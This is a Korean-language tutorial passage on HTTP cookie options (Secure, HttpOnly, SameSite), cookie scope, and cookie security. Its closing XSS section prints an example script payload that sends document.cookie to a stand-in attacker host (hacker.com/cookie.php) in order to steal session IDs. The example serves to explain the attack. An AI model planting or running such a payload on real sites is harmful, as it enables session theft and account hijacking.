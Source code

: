 Set-Cookie 시 Secure옵션을 사용하면 보안 쿠키가 된다. 이 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송된다. 즉, HTTPS 요청일 때만 브라우저가 서버에게 쿠키를 전송하며, 그렇지 않으면 전송하지 않는다. (HTTP 에서는 Secure 옵션 사용 불가)<br/>
Secure옵션을 설정해도 연결 자체가 취약할 수 있으므로, 민감한 정보는 쿠키에 저장하지 않는 것이 원칙이다.

### 4. HttpOnly 쿠키

HttpOnly 옵션을 사용하면 자바스크립트의 document.cookie를 통해 쿠키 정보에 접근할 수 없게 된다. Cross-site 스크립팅 (XSS) 공격을 방지하기 위한 옵션이다.

```jsx
// Secure, HttpOnly 옵션을 첨가했으므로 이 쿠키는 Https 연결 상에서만 서버로 전송되고,
// 자바스크립트의 document.cookie 코드로 쿠키에 접근할 수 없다.
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

### 5. SameSite 쿠키

SameSite 옵션은 CSRF (Cross-Site-Request-Forgery) 공격을 방지하기 위한 옵션이다. 말 그대로 SameSite는 쿠키가 cross-site의 요청과 함께 전달되지 않음을 요구하는 방식으로 CSRF 공격을 방지한다. 아직까지는 실험 중에 있으며, 지원하는 브라우저도, 그렇지 않은 브라우저도 있다. 
<br/>

## 쿠키의 스코프

Domain과 Path 옵션은 쿠키의 스코프를 명시한다.

### Domain
Domain 옵션은 쿠키가 전송될 도메인의 범위를 지정한다. 예를 들어, domain=google.com 으로 설정한다면 이 쿠키는 google.com을 포함한 서브 도메인에게만 전송된다.<br/>
(서브 도메인 예시 : mail.google.com, translate.google.com 등)

### Path
path 옵션은 해당 쿠키가 전송될 URL의 범위를 지정한다. 예를 들어, path=/docs 로 설정한다면 이 쿠키는 /docs, /docs/main, /docs/index 등과 같은 경로는 전송되지만 /other 과 같은 경로는 해당 쿠키를 받을 수 없다.
<br/><br/>

## 보안

쿠키는 클라이언트 측에 저장되는 만큼 보안이 취약하다. 대표적으로 XSS (Cross-Site Scripting) 과 CSRF (Cross-Site Request Forgery) 공격에 쿠키가 이용된다. 각 공격 기법에 대한 자세한 내용은 나중에 다루고, 여기서는 쿠키가 어떻게 이용될 수 있는지를 살펴보자.

### XSS

XSS는 공격자가 특정 사이트에 자바스크립트 코드를 심어 타 클라이언트의 쿠키에 저장되어 있는 세션 ID를 훔치는 기술을 의미한다.<br/>
사이트 제작자가 입력 데이터 검사를 허술하게 할 경우 XSS 공격에 쉽게 노출될 수 있다.<br/>
예를 들어 어떤 게시판 사이트가 있을 때, 내용을 입력하는 부분에 공격자가 아래와 같은 내용을 입력 후 게시글을 포스트 했다고 가정하자.

```jsx
// hacker.com은 해커의 서버
// 해커는 자신의 서버 내에 cookie.php 파일을 만들어 둔다. 이 파일은 get으로 넘어온 데이터를
// 파싱하여 data.txt 파일로 저장해두는 파일이라고 생각하면 된다.
<script>window.open("http://hacker.com/cookie.php?data="+document.cookie)</script>
```
